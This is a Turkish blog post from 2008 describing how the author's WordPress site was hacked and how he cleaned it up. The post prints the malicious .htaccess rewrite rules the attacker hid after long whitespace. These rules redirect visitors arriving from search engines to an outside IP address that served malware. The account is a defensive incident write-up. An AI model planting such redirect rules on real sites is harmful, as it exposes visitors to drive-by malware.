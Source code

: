 Title: Hacklendik
Date: 2008-11-18 22:15
Category: Haberler
Tags: apache, ftp, google, hack, htaccess, malware, WordPress

Bu gün siteme girmeye çalışan Firefox ve Google üzerinden girmeye
çalışanların karşılaştığı bir sorun sitem zararlı içerik olduğu için
engellenmiş. Aslında tüm arama sitelerinden gelen yönlendirmeler de aynı
sorun varmış. En sonunda anladım. Uzun aramalar sonunda
[http://wordpress.org/support/topic/217700][] Bu linkdeki bilgiler
doğrultusunda htcaacces içine girilen yönlendirme kodu nedeni ile
yaşamışım bu sorunları. Ayrıca yazılarımın için yerleştirilmiş bir
iframe reklam linkeleri de var tabi. Yukarıdaki linkdeki işlemleri tek
tek yaptım - htaccess dosyasını sildim. - ftp şifremi değiştirdim -
hostingh firmamdan sitemin bulnduğu klasörü bir virüs, malware
taramasından geçirmelerini istedim. Sorunun ana nedeni htaccess
dosyasında ki kodlar olarak görünüyor. Başta uzunca bir boşluktan sonra
aşağıdaki kod yazıyordu. 

RewriteEngine On RewriteCond %{HTTP_REFERER} .*google.*$ [NC,OR] RewriteCond %{HTTP_REFERER} .*aol.*$ [NC,OR]
RewriteCond %{HTTP_REFERER} .*msn.*$ [NC,OR] RewriteCond %{HTTP_REFERER} .*altavista.*$ [NC,OR] RewriteCond %{HTTP_REFERER} .*ask.*$ [NC,OR] RewriteCond %{HTTP_REFERER} .*yahoo.*$ [NC]
RewriteRule .* http://89.28.13.202/in.html?s=ix [R,L] 

Bu arada cute ftp'de htaccess görüntülemeyide öğrendik.
[http://blog.youontop.com/server-issues/view-htaccess-hidden-files-in-cuteftp-38.html][]
Muhtemelen sorun haftasonu benim kalıcı bağlantılarım gittinde oldu ve
ben bunu anlamadım. Asıl sorunun ise sitemi yahoo.com'da aradığımda
karşılaştım, linke tıkladığımda bilgisayarıma zararlı yazılım eklemeye
çalıştı. Zaten yukarıdaki kodda da bu açıkça görülüyor, siteme direk
girişlerde değilde arama sonuçlarından gelince yüklenmeye çalışıyor. Ama
hesap edemedikleri şey google'un bunu görüp sitemi kapatması. Google'un
ve Firefox'un sitemi engellemeleri daha bitmedi. Google Web Yöneticis
aracındaki incelemeye alın işaret kutunu işaretledim ve
StopBadware.org'daki formuda doldurdum. Neyse hayırlısı bakalım. Bu
durumu gören ve beni uyaran tüm arkadaşlara teşekkürler. Umarım bu tip
sorunlarla bi daha karşılaşmayız.

## Ek olarak

Ayrıca http://www.fatihhayrioglu.com/?ref=siteAdi gibi linkler var.
Bunlarıda robots.txt User-agent: * Disallow: /*ref=* Disallow:
/*?ref= kodlarını ekleyerek düzelttim. İşin ilginci bu linkleri
google'un arama aracı nasıl buluyor.

  [http://wordpress.org/support/topic/217700]: http://wordpress.org/support/topic/217700
  [http://blog.youontop.com/server-issues/view-htaccess-hidden-files-in-cuteftp-38.html]: http://blog.youontop.com/server-issues/view-htaccess-hidden-files-in-cuteftp-38.html
